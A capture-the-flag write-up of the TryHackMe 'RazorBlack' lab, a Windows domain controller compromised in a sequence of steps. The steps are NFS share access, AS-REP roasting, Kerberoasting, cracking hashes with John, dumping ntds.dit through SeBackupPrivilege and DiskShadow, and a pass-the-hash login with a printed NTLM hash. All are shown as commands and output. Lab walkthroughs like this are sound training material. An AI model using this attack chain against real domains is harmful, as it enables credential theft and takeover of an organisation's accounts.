 # THM - RazorBlack

#### Ip: 10.10.83.71
#### Name: RazorBlack
#### Rating: Medium

----------------------------------------------------------------------

![razorblack.jpeg](../assets/razorblack_assets/razorblack.jpeg)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.59.200  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 10:33 CDT
Warning: 10.10.59.200 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.59.200
Host is up (0.13s latency).
Not shown: 64884 closed tcp ports (reset), 624 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49677/tcp open  unknown
49692/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Woof, that's a lot of open ports. Rather than scanning for versions and using Nmap scripts, lets enumerate these manually. 

Because this appears to be a domain controller, lets use CrackmapExec to get the domain name, which we can then add to our `/etc/hosts` file:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ crackmapexec smb 10.10.59.200                           
SMB         10.10.59.200    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
```

Taking a look at RPC on port 111, we see we can mount a share:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ showmount -e 10.10.59.200
Export list for 10.10.59.200:
/users (everyone)
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ mkdir /tmp/users         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo mount -t nfs 10.10.59.200:/users /tmp/users -o nolock
                                                                                                                                                                                                                                                       
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo ls /tmp/users 
employee_status.xlsx  sbradley.txt
```

Cool, looks like two files, an employee status Excel document, and a file called sbradley.txt, which contains a flag (for this writeup I'll be skipping all the flag submissions for the challenge and just focusing on rooting the domain)

Taking a look at the Excel document we find a list of names. 

![users.png](../assets/razorblack_assets/users.png)

We can follow the naming convention from the sbradley.txt file and assume the convention is first_initial_last_name. Lets create a username file based on this logic:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> users.txt
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
^C
```

Now that we have this, lets see what we can do with it.

### Exploitation

Trying impacket-GetNPUsers with the `-no-pass` flag set we are able to drop a hash!

![npu.png](../assets/razorblack_assets/npu.png)

Lets put this hash in a file called twilliams_hash and try to crack it using JohnTheRipper:

![twilliams.png](../assets/razorblack_assets/twilliams.png)

Nice, John cracked that easily. Now that we have some credentials, lets try using impacket-GetUserSPNs:

![spn.png](../assets/razorblack_assets/spn.png)

We've got another hash! This time for user xyan1d3.

Once again I'll ad this to a file called xyan1d3_hash and use John to crack it:

![john2.png](../assets/razorblack_assets/john2.png)

Cool, that worked! We can now use Evil-WinRM to logon to the target:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628
```

### Privilege Escalation

Taking a look at our privileges by running `whoami /all` we see the SeBackupPrivilege, which should hopefully be a way to escalate privileges by allowing us to obtain the ntds.dit file.

![backup.png](../assets/razorblack_assets/backup.png)

To do this we'll need to creat a .dsh file and convert it to be compatible with Windows:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> hey.dsh 
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ unix2dos hey.dsh   
unix2dos: converting file hey.dsh to DOS format...
```

Back on the target I'll create a TEMP file and upload the .dsh file using the `upload` feature in Evil-WinRM.

```text
*Evil-WinRM* PS C:\TEMP> upload ~/THM/RazorBlack/hey.dsh
Info: Uploading ~/THM/RazorBlack/hey.dsh to C:\TEMP\hey.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```

We can now use DiskShadow to make a copy of the `C:\` drive:

![disk.png](../assets/razorblack_assets/disk.png)

Now lets use robocopy to grab the ntds.dit file:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 22, 2023 9:53:47 AM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```

And we'll also want to grab the SYSTEM registry file too:

```text
*Evil-WinRM* PS C:\TEMP> reg save hklm\system SYSTEM
The operation completed successfully.
```

After using the `download` feature in Evil-WinRM to bring these files back to my attacking machine, I can use impacket-secretsdump to get the administrator's NTLM hash:

![secrets.png](../assets/razorblack_assets/secrets.png)

From here I can pass-the-hash to their account:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

And in the `administrator` folder we find a file called root.xml, which appears to be in hex:

![hex.png](../assets/razorblack_assets/hex.png)

We can crack this using https://gchq.github.io/CyberChef/:

![root_flag.png](../assets/razorblack_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------
